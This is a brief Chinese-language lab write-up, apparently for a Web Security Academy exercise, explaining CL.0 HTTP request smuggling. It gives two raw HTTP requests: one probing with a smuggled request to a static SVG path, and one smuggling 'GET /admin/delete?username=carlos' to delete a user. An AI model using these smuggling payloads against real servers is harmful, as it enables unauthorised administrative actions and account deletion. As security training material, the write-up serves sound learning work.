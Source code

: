 # CL.0 请求走私的核心原理

- **前端代理**：严格依赖`Content-Length`头确定请求体的结束位置。
- **后端服务器**：完全忽略`Content-Length`头，默认请求体为空（即`Content-Length: 0`）。

构造的 attack 包的请求体将作为残留数据。

1. 当请求请求静态文件时，后端忽略 CL

```
POST /resources/images/blog.svg HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=YOUR-SESSION-COOKIE
Connection: keep-alive
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```

![image-20250413163003089](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250413163003089.png)

2. 漏洞利用删除用户。

```
Content-Length: 50

GET /admin/delete?username=carlos HTTP/1.1
Foo: x
```

![image-20250413163105406](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250413163105406.png)
